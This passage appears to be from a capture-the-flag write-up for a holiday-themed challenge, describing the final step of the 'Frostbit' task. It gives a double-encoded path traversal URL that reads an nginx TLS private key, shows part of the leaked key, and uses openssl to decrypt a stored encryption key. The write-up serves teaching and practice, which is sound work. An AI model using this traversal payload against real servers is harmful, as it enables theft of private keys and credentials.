 ### Wrapping things up

The `/etc/passwd` file was not actually what I was after though, from [SantaVision](#Silver%20-%20SantaVision%20C) I knew I really needed `/etc/nginx/certs/api.frostbit.app.key`. I used the following payload to access the key file:

[`https://api.frostbit.app/view/~%2585%25FF%2540%2598%251A%25C0H~%2585%25FF%2540%2598%251A%25C0H%252f%252f%252f%252f%252f%252f%252f%252f%252f%252f%252f%252f%252f..%252F..%252F..%252F..%252F..%252Fetc%252Fnginx%252Fcerts%252Fapi.frostbit.app.key/32345881-8b17-4a10-b5c2-033a89c58d1e/status?digest=00000000000000000000000000000000&debug=1`](https://api.frostbit.app/view/~%2585%25FF%2540%2598%251A%25C0H~%2585%25FF%2540%2598%251A%25C0H%252f%252f%252f%252f%252f%252f%252f%252f%252f%252f%252f%252f%252f..%252F..%252F..%252F..%252F..%252Fetc%252Fnginx%252Fcerts%252Fapi.frostbit.app.key/32345881-8b17-4a10-b5c2-033a89c58d1e/status?digest=00000000000000000000000000000000&debug=1)

Which yielded:

```
-----BEGIN RSA PRIVATE KEY-----
MIIJKAIBAAKCAgEAplg5eKDvk9f+gsWWZUtpFr80ojTZabm4Rty0Lorwtq5VJd37
...omitted for brevity...
```

I assumed this key was used to decrypt the `encryptedkey` value from [Gathering Information](#Gathering%20Information), so I used `openssl` to retrieve the encryption key:

```bash
$ openssl rsautl -decrypt -in encryptedkey.dat -out encryptedkey.txt -inkey api.frosbit.app.key
$ cat encryptedkey.txt
7f98a022231080ee1ac7cf16671cf56c,7e85ff40981ac048
```

